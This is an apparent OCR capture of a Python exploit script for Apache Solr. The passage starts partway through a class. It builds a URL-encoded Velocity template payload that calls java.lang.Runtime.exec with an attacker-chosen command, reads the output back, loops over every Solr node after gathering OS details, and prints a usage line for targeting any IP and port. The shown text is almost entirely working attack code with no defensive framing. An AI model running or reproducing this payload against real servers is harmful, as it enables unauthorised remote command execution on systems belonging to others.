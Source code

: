                 }

        def rce(self):
            url = self.url + ("/select?q=1&&wt=velocity&v.template=custom&v.template.custom="
                              "%23set($x=%27%27)+"
                              "%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+"
                              "%23set($chr=$x.class.forName(%27java.lang.Character%27))+"
                              "%23set($str=$x.class.forName(%27java.lang.String%27))+"
                              "%23set($ex=$rt.getRuntime().exec(%27" + self.command +
                              "%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+"
                              "%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end")
            try:
                res = requests.get(url=url, timeout=5)
                if res.status_code == 200:
                    try:
                        if res.json()['responseHeader']['status'] == '0':
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                        else:
                            return 'RCE failed @Apache Solr node %s\n' % self.node
                    except:
                        return 'RCE Successfully @Apache Solr node %s\n %s\n' % (self.node, res.text.strip().strip('0'))

                else:
                    return 'RCE failed @Apache Solr node %s\n' % self.node
            except:
                return 'RCE failed @Apache Solr node %s\n' % self.node


    def check(ip, port='8983', command='whoami'):
        system = initSolr(ip=ip, port=port)
        if system.get_nodes()['state'] == 0:
            print('No Nodes Found. Remote Exec Failed!')
        else:
            nodes = system.get_nodes()['node']
            systeminfo = system.get_system()
            os_name = systeminfo['system']['name']
            os_version = systeminfo['system']['version']
            print('OS Realese: %s, OS Version: %s\nif remote exec failed, '
                  'you should change your command with right os platform\n' % (os_name, os_version))

            for node in nodes:
                res = apacheSolrRCE(ip=ip, port=port, node=node, command=command)
                init_node_config = res.init_node_config()
                if init_node_config['state'] == 1:
                    print('Init node %s Successfully, exec command=%s' % (node, command))
                    result = res.rce()
                    print(result)
                else:
                    print('Init node %s Failed, Remote Exec Failed\n' % node)


    if __name__ == '__main__':
        usage = ('python3 script.py ip [port [command]]\n '
                 '\t\tdefault port=8983\n '
                 '\t\tdefault command=whoami')

